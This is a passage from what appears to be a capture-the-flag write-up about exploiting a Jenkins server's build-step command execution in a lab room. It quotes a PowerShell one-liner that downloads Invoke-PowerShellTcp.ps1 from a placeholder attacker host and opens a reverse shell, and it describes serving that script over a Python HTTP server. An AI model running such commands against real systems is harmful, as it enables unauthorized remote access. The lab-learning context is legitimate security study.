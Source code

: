 Yeah it’s correct.

## Find a feature of the tool that allows you to execute commands on the underlying system.

<aside>
💡 When you find this feature, you can use this command to get the reverse shell on your machine and then run it: *powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port*

</aside>

<aside>
💡 You first need to download the Powershell script, and make it available for the server to download. You can do this by creating a http server with python: *python3 -m http.server*

</aside>

Under the Configure Project menu I found this:

![Untitled](images/Untitled%2016.png)

It looks like I’m able to execute code in the mathine after Jenkins builds the machine. Interesting. Let’s see if we can exploit this feature ad the room explains it.

First of all let’s download the powershell scripts, open a python http server and a netcat listener in our machine:

![Untitled](images/Untitled%2017.png)
